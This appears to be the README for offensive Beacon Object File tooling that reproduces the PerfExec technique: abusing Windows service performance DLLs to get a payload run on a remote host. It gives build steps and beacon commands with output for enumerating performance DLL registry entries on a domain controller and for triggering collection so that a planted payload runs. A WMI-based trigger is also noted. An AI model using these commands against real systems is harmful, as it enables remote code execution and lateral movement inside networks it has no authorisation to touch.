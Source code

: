 # PerfExec BOF Tooling
These BOFs can be used with several other public BOFs to closely mimic `PerfExec.exe` functionality.

### Compiling
Requires `mingw-w64`
```
make
```

### Enumeration
The `perf-gather` BOF can be used to enumerate service performance DLL info from the registry (local or remote)
```
beacon> perf-gather earth-dc.marvel.local
[*] Gathering performance data from the registry on earth-dc.marvel.local
[+] host called home, sent: 4843 bytes
[+] received output:
[*] Target: earth-dc.marvel.local
[*] Enumerating Services subkeys...

[+] HKLM\SYSTEM\CurrentControlSet\Services\.NET CLR Data\Performance
 |_ PerfIniFile: _DataPerfCounters_d.ini
 |_ Library: %systemroot%\system32\netfxperf.dll
 |_ Open: OpenPerformanceData
 |_ Collect: CollectPerformanceData
 |_ Close: ClosePerformanceData

 ...
```

### Trigger
The `perf-trigger` BOF can trigger performance data collection (similar to `PerfExec.exe diagrun=true`)

```
beacon> perf-trigger "DNS" "Total Query Received" earth-dc.marvel.local
[*] Triggering performance data collection on earth-dc.marvel.local
[+] host called home, sent: 4853 bytes
[+] received output:
[*] Target: earth-dc.marvel.local
[*] Object: DNS
[*] Counter: Total Query Received

[!] PdhAddCounterA failed with error code: -1073738824
[!] Payload may still have triggered
```

The pre-existing `wmi_query` [BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF) can be leveraged to trigger collection using WMI.